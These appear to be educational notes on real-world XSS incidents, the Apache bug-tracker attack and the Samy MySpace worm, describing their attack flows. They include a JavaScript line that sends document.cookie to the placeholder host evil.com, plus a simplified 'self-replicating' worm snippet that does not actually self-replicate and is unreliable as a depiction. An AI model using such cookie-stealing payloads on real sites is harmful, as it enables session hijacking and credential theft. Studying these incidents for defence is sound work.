 This part of the chapter serves as a wake-up call: XSS is *not* just about `alert(1)`. It’s about **full app compromise, worm propagation, credential theft, and cross-system pivoting.**

---

### ⚔️ 1. **Apache Foundation Attack (2010)**

> **Vulnerability Type:** Reflected XSS
> **Target:** Apache’s bug tracking system
> **Impact:** Admin session hijacked → server compromised → Trojan deployed → reused credentials → infrastructure breached

#### 🧠 Attack Flow:

1. Attacker crafts malicious XSS URL using a redirector (obfuscates malicious intent).
2. Admin clicks the link → session token gets stolen via JS like:

   ```js
   var i = new Image();
   i.src = "http://evil.com/log?" + document.cookie;
   ```
3. Attacker uses stolen session to:

   * Change upload folder to something executable (`/webroot`)
   * Uploads fake login form (credential stealer)
   * Gets real admin creds
   * Finds reused passwords → pivots to other systems

#### 🚨 Key Takeaway:

* XSS + bad infrastructure hygiene (like reused passwords) = **full compromise**
* Even a "small" reflected XSS can trigger **multi-stage attacks**

---

### 🧟‍♂️ 2. **MySpace Samy Worm (2005)**

> **Vulnerability Type:** Stored XSS
> **Impact:** 1 million auto-friends in hours → site taken offline

#### 🧠 Attack Flow:

1. MySpace filters basic `<script>` tags… but Samy bypasses it with clever obfuscation (e.g., using `div` events or `CSS expressions`)

2. Script does two things:

   * Adds Samy to your friends list (`document.forms[0].submit()` style automation)
   * Self-replicates by injecting itself into your profile (`innerHTML` write)

3. Anyone visiting your profile also runs the worm → exponential spread

#### 🧬 Classic Self-Replicating Payload:

```html
<div id="samy">But most of all, Samy is my hero</div>
<script>
var i=document.createElement('iframe');
i.src='http://myspace.com/samy_worm_payload';
document.body.appendChild(i);
</script>
```
